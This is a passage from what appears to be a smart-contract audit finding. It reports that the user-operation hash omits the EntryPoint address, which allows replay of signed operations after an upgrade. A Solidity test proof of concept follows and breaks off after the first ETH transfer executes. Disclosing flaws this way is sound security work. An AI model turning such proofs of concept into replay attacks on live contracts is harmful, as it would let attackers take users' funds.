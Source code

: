 Note above that the `EntryPoint` address is not included in the hash generated via `getPackedUserOperationHash()`. The `_domainSeparatorV4()` will only include the `chainId` and `address(this)` but excludes the `EntryPoint` address.

**Impact:** Upgrading the delegator contract to include a new `EntryPoint` address opens the possibility of replay attacks.

**Proof of Concept:** Following POC shows the possibility of replaying previous native transfers when delegator contract is upgraded to a new `EntryPoint`.

```solidity
contract EIP7702EntryPointReplayAttackTest is BaseTest {
    using MessageHashUtils for bytes32;

    constructor() {
        IMPLEMENTATION = Implementation.EIP7702Stateless;
        SIGNATURE_TYPE = SignatureType.EOA;
    }

    // New EntryPoint to upgrade to
    EntryPoint newEntryPoint;
    // Implementation with the new EntryPoint
    EIP7702StatelessDeleGator newImpl;

    function setUp() public override {
        super.setUp();

        // Deploy a second EntryPoint
        newEntryPoint = new EntryPoint();
        vm.label(address(newEntryPoint), "New EntryPoint");

        // Deploy a new implementation connected to the new EntryPoint
        newImpl = new EIP7702StatelessDeleGator(delegationManager, newEntryPoint);
        vm.label(address(newImpl), "New EIP7702 StatelessDeleGator Impl");
    }

    function test_replayAttackAcrossEntryPoints() public {
        // 1. Create a UserOp that will be valid with the original EntryPoint
        address aliceDeleGatorAddr = address(users.alice.deleGator);

        // A simple operation to transfer ETH to Bob
        Execution memory execution = Execution({ target: users.bob.addr, value: 1 ether, callData: hex"" });

        // Create the UserOp with current EntryPoint
        bytes memory userOpCallData = abi.encodeWithSignature(EXECUTE_SINGULAR_SIGNATURE, execution);
        PackedUserOperation memory userOp = createUserOp(aliceDeleGatorAddr, userOpCallData);

        // Alice signs it with the current EntryPoint's context
        userOp.signature = signHash(users.alice, getPackedUserOperationTypedDataHash(userOp));

        // Bob's initial balance for verification
        uint256 bobInitialBalance = users.bob.addr.balance;

        // Execute the original UserOp through the first EntryPoint
        PackedUserOperation[] memory userOps = new PackedUserOperation[](1);
        userOps[0] = userOp;
        vm.prank(bundler);
        entryPoint.handleOps(userOps, bundler);

        // Verify first execution worked
        uint256 bobBalanceAfterExecution = users.bob.addr.balance;
        assertEq(bobBalanceAfterExecution, bobInitialBalance + 1 ether);

```